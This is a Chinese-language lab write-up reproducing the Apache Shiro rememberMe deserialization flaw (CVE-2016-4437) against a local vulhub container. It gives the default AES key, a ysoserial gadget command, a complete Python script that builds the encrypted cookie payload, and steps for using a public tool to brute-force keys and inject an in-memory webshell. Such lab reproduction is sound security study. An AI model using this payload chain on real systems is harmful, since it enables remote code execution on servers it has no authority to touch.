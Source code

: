 # shiro反序列化漏洞(CVE-2016-4437)漏洞复现

Apache Shiro是一款开源强大且易用的Java安全框架，提供身份验证、授权、密码学和会话管理。Shiro框架直观、易用，同时也能提供健壮的安全性。

在 1.2.4 版本前, 加密的用户信息序列化后存储在名为remember-me的Cookie中，Apache Shiro默认使用CookieRememberMeManager。其处理cookie的流程是：得到rememberMe的cookie值-->Base64解码-->AES解密-->反序列化，默认ASE秘钥,Key: kPH+bIxk5D2deZiIxcaaaA==

***shiro特征指纹***

> 随便输入账号密码，在返回包的 Set-Cookie 中存在 rememberMe=deleteMe 字段

### 漏洞影响

shiro<1.2.4

### 环境搭建

```cobol
cd /vulhub-master/shiro/CVE-2016-4437
CVE-2016-4437# docker-compose up -d
```

### 漏洞复现

访问对应地址，随便输入账号密码，bp抓包重发，可观察到`rememberMe=deleteMe`字样，基本可以确定网站是Apache Shiro搭建。

![image-20250315122426385](C:\Users\21415\AppData\Roaming\Typora\typora-user-images\image-20250315122426385.png)

![image-20250315122212433](C:\Users\21415\AppData\Roaming\Typora\typora-user-images\image-20250315122212433.png)

1. 手工漏洞利用

​	使用ysoserial生成CommonsBeanutils1的Gadget：

> java -jar ysoserial-master-30099844c6-1.jar CommonsBeanutils1 "touch /tmp/success" > poc.ser

​	payload生成代码（python3），命名为poc.py

``` import sys
import uuid
import base64
from Crypto.Cipher import AES
 
def encode_rememberme():
    f = open('poc.ser','rb')
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(f.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext
 
if __name__ == '__main__':
    payload = encode_rememberme()   
    print("rememberMe={0}".format(payload.decode()))
```

​	再用此生成poyload，如下

![image-20250315160855438](C:\Users\21415\AppData\Roaming\Typora\typora-user-images\image-20250315160855438.png)

将该poyload放入cookie中，再发送，观察到响应包多个rememberme=deleteme

![image-20250315161313208](C:\Users\21415\AppData\Roaming\Typora\typora-user-images\image-20250315161313208.png)

​	进入靶机，查看生成的文件，可见touch /tmp/succ123命令已执行

```docker ps
docker exec -it a32221cbfee0 /bin/bash
cd /tmp
ls
```

![image-20250315161725470](C:\Users\21415\AppData\Roaming\Typora\typora-user-images\image-20250315161725470.png)

2. 工具利用

   工具地址：https://github.com/j1anFen/shiro_attack

​	检测是否存在漏洞并且爆破密钥

![image-20250315165123620](C:\Users\21415\AppData\Roaming\Typora\typora-user-images\image-20250315165123620.png)

爆破利用链及回显，进一步利用

![image-20250315165636699](C:\Users\21415\AppData\Roaming\Typora\typora-user-images\image-20250315165636699.png)

![image-20250315165728003](C:\Users\21415\AppData\Roaming\Typora\typora-user-images\image-20250315165728003.png)

注入内存马，发现冰蝎连不上

![image-20250315165916315](C:\Users\21415\AppData\Roaming\Typora\typora-user-images\image-20250315165916315.png)





### 参考链接

* https://blog.csdn.net/HEAVEN569/article/details/125389987
* https://github.com/vulhub/vulhub/blob/master/shiro/CVE-2016-4437/README.zh-cn.md

